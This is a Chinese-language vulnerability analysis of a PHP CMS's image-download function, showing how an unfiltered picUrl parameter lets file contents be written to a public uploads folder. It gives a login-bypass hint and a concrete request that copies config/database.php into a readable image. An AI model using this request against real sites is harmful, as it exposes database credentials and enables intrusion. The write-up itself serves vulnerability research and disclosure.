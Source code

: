向下对变量**$picUrl** 是否为空进行判断，并判断是否进行登录，这里使用**POST**传参进行验证登录绕过，跳转到else语句下

![](/img/20210924013647686740.png)

```php
else {
            $content = wp_file_get_contents($picUrl);
            // 获取图片扩展名
            $picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
            if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
                $picExt = 'jpg';
            }
            $picName = NOW_TIME . uniqid() . '.' . $picExt;
            $picPath = $savePath . '/' . $picName;
            $res = file_put_contents($picPath, $content);
            if (!$res) {
                $cover_id = do_down_image($media_id);
                if (!$cover_id) {
                    return 0;
                    exit();
                }
            }
```

分析传入变量 **picUrl** 的 **wp_file_get_contents**方法

```php
$content = wp_file_get_contents($picUrl);
```

函数文件位置 **application\common.php**

![](/img/20210924013648020288.png)

可以看到这里没有对我们的参数进行过滤，只做了一个有关超时的操作, 回到函数继续向下分析

```php
$picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
                $picExt = 'jpg';
}
$picName = NOW_TIME . uniqid() . '.' . $picExt;
$picPath = $savePath . '/' . $picName;
$res = file_put_contents($picPath, $content);
```

这里创建了有关当前时间的图片文件，并写入文件夹**/public/uploads/picture/** 下

我们先尝试控制变量 **$picUrl** 来写入数据库配置文件到图片中

```
/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php
```

![](/img/20210924013648205136.png)
